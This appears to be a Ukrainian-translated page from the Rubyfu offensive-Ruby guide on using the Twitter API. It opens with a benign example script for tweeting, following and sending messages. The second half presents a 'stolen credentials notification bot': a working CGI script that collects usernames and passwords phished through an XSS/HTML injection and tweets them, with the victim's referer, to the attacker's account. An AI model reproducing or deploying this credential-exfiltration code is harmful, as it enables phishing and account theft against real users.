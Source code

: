 # Twitter API
Вміння працювати з API твіттеру є дійсно корисним для отримання інформації, систематизування її, та задля соціальної взаємодії. Але вам потрібно мати ключі та токени для того, щоб отримати мождивість працювати з API твіттеру. Щоб зробити це, зверніться до офіційної документаціх на [сторінці розробника Twitter][1].

- Щоб встановити Twitter API виконайте:
```
gem install twitter
```

## Використання
**rubyfu-tweet.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'twitter'
require 'pp'

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end

puts client.user("Rubyfu")                   # Fetch a user
puts client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
puts client.follow("Rubyfu")                 # Follow User (as the authenticated user)
puts client.followers("Rubyfu")              # Fetch followers of a user
puts client.followers                        # Fetch followers of current user 
puts client.status(649235138585366528)       # Fetch a particular Tweet by ID
puts client.create_direct_message("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user
```
![](webfu__twitterAPI1.png)


**Ваш хід**, надішліть твіт до @Rubyfu використовуючи вищенаведений приклад. відправте ваш код та результат роботи до **@Rubyfu**.

## Building Stolen Credentials notification bot
We're exploiting an XSS/HTML injection vulnerability and tricking users to enter there Username and Password. The idea is, We'll make a [CGI script][2] that takes that stolen credentials then tweet these credentials to us as notification or log system
```ruby
#!/usr/bin/ruby -w                                                                 

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Referer!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts ""
```






[1]: https://dev.twitter.com/oauth/overview
[2]: http://rubyfu.net/content/module_0x4__web_kung_fu/index.html#cgi
